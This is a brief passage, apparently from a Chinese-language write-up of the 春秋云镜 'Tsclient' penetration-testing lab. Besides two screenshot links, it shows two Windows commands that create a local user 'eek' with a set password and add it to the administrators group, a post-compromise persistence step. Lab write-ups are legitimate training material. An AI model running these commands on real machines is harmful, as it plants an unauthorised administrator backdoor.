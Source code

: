 ![image-20230806180722061](img/春秋云镜-Tsclient/image-20230806180722061.png)

然后创建用户

```
net user eek 1qaz!QAZ /add 
net localgroup administrators eek /add
```

![image-20230806181146850](img/春秋云镜-Tsclient/image-20230806181146850.png)
